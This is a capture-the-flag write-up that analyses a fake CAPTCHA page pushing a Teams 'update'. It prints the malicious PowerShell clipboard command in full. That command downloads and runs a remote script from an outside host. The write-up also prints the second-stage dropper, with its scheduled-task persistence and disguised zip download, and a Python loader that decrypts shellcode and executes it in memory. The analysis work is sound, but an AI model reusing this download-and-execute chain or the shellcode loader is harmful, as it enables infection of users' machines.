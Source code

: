 ### Verify You Are Human

this is a challenge from [huntress](https://ctf.huntress.com) ctf 2025

#### Description

> My computer said I needed to update MS Teams, so that is what I have been trying to do...
> ...but I can't seem to get past this CAPTCHA!

#### My solution

You are first greeted by this page:
![screenshot of captcha page](../images/screenshot-20251004-234044.png)

This page leads on to the next when you click to verify the page:
![screenshot of verify page](../images/screenshot-20251004-234358.png)

On this page it says to verify! It copys a command into your clipboard and wants you to exicute it in the windows runner. This is the command:
```
"C:\WINDOWS\system32\WindowsPowerShell\v1.0\PowerShell.exe" -Wi HI -nop -c "$UkvqRHtIr=$env:LocalAppData+'\'+(Get-Random -Minimum 5482 -Maximum 86245)+'.PS1';irm 'http://c8b9d11e.proxy.coursestack.com:443/?tic=1'> $UkvqRHtIr;powershell -Wi HI -ep bypass -f $UkvqRHtIr"
```
I analysed this command, it does the following:
- Create a hidden powershell prompt
- Create a powershell script file in your `%AppData%` directory
- Load the page `http://c8b9d11e.proxy.coursestack.com:443/?tic=1` into said file
- Then exicute that file in another hidden powershell prompt

The link `http://c8b9d11e.proxy.coursestack.com:443/?tic=1` contains the following powershell script:
```
$JGFDGMKNGD = ([char]46)+([char]112)+([char]121)+([char]99);$HMGDSHGSHSHS = [guid]::NewGuid();$OIEOPTRJGS = $env:LocalAppData;irm 'http://c8b9d11e.proxy.coursestack.com:443/?tic=2' -OutFile $OIEOPTRJGS\$HMGDSHGSHSHS.pdf;Add-Type -AssemblyName System.IO.Compression.FileSystem;[System.IO.Compression.ZipFile]::ExtractToDirectory("$OIEOPTRJGS\$HMGDSHGSHSHS.pdf", "$OIEOPTRJGS\$HMGDSHGSHSHS");$PIEVSDDGs = Join-Path $OIEOPTRJGS $HMGDSHGSHSHS;$WQRGSGSD = "$HMGDSHGSHSHS";$RSHSRHSRJSJSGSE = "$PIEVSDDGs\pythonw.exe";$RYGSDFSGSH = "$PIEVSDDGs\cpython-3134.pyc";$ENRYERTRYRNTER = New-ScheduledTaskAction -Execute $RSHSRHSRJSJSGSE -Argument "`"$RYGSDFSGSH`"";$TDRBRTRNREN = (Get-Date).AddSeconds(180);$YRBNETMREMY = New-ScheduledTaskTrigger -Once -At $TDRBRTRNREN;$KRYIYRTEMETN = New-ScheduledTaskPrincipal -UserId "$env:USERNAME" -LogonType Interactive -RunLevel Limited;Register-ScheduledTask -TaskName $WQRGSGSD -Action $ENRYERTRYRNTER -Trigger $YRBNETMREMY -Principal $KRYIYRTEMETN -Force;Set-Location $PIEVSDDGs;$WMVCNDYGDHJ = "cpython-3134" + $JGFDGMKNGD; Rename-Item -Path "cpython-3134" -NewName $WMVCNDYGDHJ; iex ('rundll32 shell32.dll,ShellExec_RunDLL "' + $PIEVSDDGs + '\pythonw" "' + $PIEVSDDGs + '\'+ $WMVCNDYGDHJ + '"');Remove-Item $MyInvocation.MyCommand.Path -Force;Set-Clipboard
```

This looks rather confusing with all the random varible names so I tried to make it a bit neater to see what was happening:
```
$PYC = ([char]46) + ([char]112) + ([char]121) + ([char]99);
$GUILDID = [guid]::NewGuid();
$LOCALAPP = $env:LocalAppData;
irm 'https://c8b9d11e.proxy.coursestack.com:443/?tic=2' -OutFile $LOCALAPP\$GUILDID.pdf;
Add-Type -AssemblyName System.IO.Compression.FileSystem;[System.IO.Compression.ZipFile]::ExtractToDirectory("$LOCALAPP\$GUILDID.pdf", "$LOCALAPP\$GUILDID");
$MAINPATH = Join-Path $LOCALAPP $GUILDID;
$GUILD_ID_STR = "$GUILDID";
$PYTHON = "$MAINPATH\pythonw.exe";
$CPY_D_PYC = "$MAINPATH\cpython-3134.pyc";
$SEDULE_PYTHON = New-ScheduledTaskAction -Execute $PYTHON -Argument "`"$CPY_D_PYC`"";
$SCHEDULED_RUN_TIME = (Get-Date).AddSeconds(180);
$SCHEDULE_TRIGGER = New-ScheduledTaskTrigger -Once -At $SCHEDULED_RUN_TIME;
$SCHEDULE_PINCIPAL = New-ScheduledTaskPrincipal -UserId "$env:USERNAME" -LogonType Interactive -RunLevel Limited;
Register-ScheduledTask -TaskName $GUILD_ID_STR -Action $SEDULE_PYTHON -Trigger $SCHEDULE_TRIGGER -Principal $SCHEDULE_PINCIPAL -Force;
Set-Location $MAINPATH;
$FULL_PYTHON_FILENAME = "cpython-3134" + $PYC;
Rename-Item -Path "cpython-3134" -NewName $FULL_PYTHON_FILENAME;
iex ('rundll32 shell32.dll,ShellExec_RunDLL "' + $MAINPATH + '\pythonw" "' + $MAINPATH + '\' + $FULL_PYTHON_FILENAME + '"');
Remove-Item $MyInvocation.MyCommand.Path -Force;
Set-Clipboard
```

This makes it a bit clearer about what it is doing.
One of the first major things it does is download a "pdf" from `https://c8b9d11e.proxy.coursestack.com:443/?tic=2`.
Looking at what type of file it is I get back: `Zip archive data, at least v2.0 to extract`.
This file is trying to act like a pdf but is clearly a zip file.
This is made clear when the next line in the script extracts the pdf file.
The extracted file has the python.exe aswell as some .pyc files which are python files that contain bytecode.
the only .py file I find is a file named `output.py`:
```py
import base64
#nfenru9en9vnebvnerbneubneubn
exec(base64.b64decode("aW1wb3J0IG ... cHRyKQpmbigp").decode('utf-8'))
#g0emgoemboemoetmboemomeio
```
It has a bit long base64 string that gets decoded and executed as more python.
the string after being decode is the following python script:
```py
import ctypes

def xor_decrypt(ciphertext_bytes, key_bytes):
    decrypted_bytes = bytearray()
    key_length = len(key_bytes)
    for i, byte in enumerate(ciphertext_bytes):
        decrypted_byte = byte ^ key_bytes[i % key_length]
        decrypted_bytes.append(decrypted_byte)
    return bytes(decrypted_bytes)

shellcode = bytearray(xor_decrypt(base64.b64decode('zGdgT6GHR9uXJ682kdam1A5TbvJP/Ap87V6JxICzC9ygfX2SUoIL/W5cEP/xekJTjG+ZGgHeVC3clgz9x5X5mgWLGNkga+iixByTBkka0xbqYs1TfOVzk2buDCjAesdisU887p9URkOL0rDve6qe7gjyab4H25dPjO+dVYkNuG8wWQ=='), base64.b64decode('me6Fzk0HR9uXTzzuFVLORM2V+ZqMbA==')))
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr), buf, ctypes.c_int(len(shellcode)))
functype = ctypes.CFUNCTYPE(ctypes.c_void_p)
fn = functype(ptr)
fn()
```

This contins even more base64 and an xor decrypter.
I modified this file to print out the shell code and write it to a binary file:
```
import base64
import codecs

def xor_decrypt(ciphertext_bytes, key_bytes):
    decrypted_bytes = bytearray()
    key_length = len(key_bytes)
    for i, byte in enumerate(ciphertext_bytes):
        decrypted_byte = byte ^ key_bytes[i % key_length]
        decrypted_bytes.append(decrypted_byte)
    return bytes(decrypted_bytes)

shellcode = bytearray(xor_decrypt(base64.b64decode('zGdgT6GHR9uXJ682kdam1A5TbvJP/Ap87V6JxICzC9ygfX2SUoIL/W5cEP/xekJTjG+ZGgHeVC3clgz9x5X5mgWLGNkga+iixByTBkka0xbqYs1TfOVzk2buDCjAesdisU887p9URkOL0rDve6qe7gjyab4H25dPjO+dVYkNuG8wWQ=='), base64.b64decode('me6Fzk0HR9uXTzzuFVLORM2V+ZqMbA==')))
print(shellcode)
data = codecs.decode(shellcode, "unicode_escape").encode("latin-1")
out_path = "decoded.bin"
with open(out_path, "wb") as f:
    f.write(data)

```
Output:
```
bytearray(b'U\x89\xe5\x81\xec\x80\x00\x00\x00h\x93\xd8\x84\x84h\x90\xc3\xc6\x97h\xc3\x90\x93\x92h\x90\xc4\xc3\xc7h\x9c\x93\x9c\x93h\xc0\x9c\xc6\xc6h\x97\xc6\x9c\x93h\x94\xc7\x9d\xc1h\xde\xc1\x96\x91h\xc3\xc9\xc4\xc2\xb9\n\x00\x00\x00\x89\xe7\x817\xa5\xa5\xa5\xa5\x83\xc7\x04Iu\xf4\xc6D$&\x00\xc6\x85\x7f\xff\xff\xff\x00\x89\xe6\x8d}\x80\xb9&\x00\x00\x00\x8a\x06\x88\x07FGIu\xf7\xc6\x07\x00\x8d<$\xb9@\x00\x00\x00\xb0\x01\x88\x07GIu\xfa\xc9\xc3')
```

Next I opened this binary file in IDA to decompile the file and see what the program wanted to do.
![IDA program with binary file open](../images/screenshot-20251005-000637.png)
This assembly code shows date being pushed onto a stack and then xor'ed to decompile the data.
I copyed the data and the xor value and made a script to decrypt it:
```py
data = [
    0x8484D893,
    0x97C6C390,
    0x929390C3,
    0xC7C3C490,
    0x939C939C,
    0xC6C69CC0,
    0x939CC697,
    0xC19DC794,
    0x9196C1DE,
    0xC2C4C9C3
]

xor = 0x0A5A5A5A5
decoded_str = ""

for w in data:
    decoded_str = ((w ^ xor).to_bytes(4, 'little')).decode("utf-8") + decoded_str

print(decoded_str)
```

This then gave me the correct flag!: `flag{d34 ... c26}`

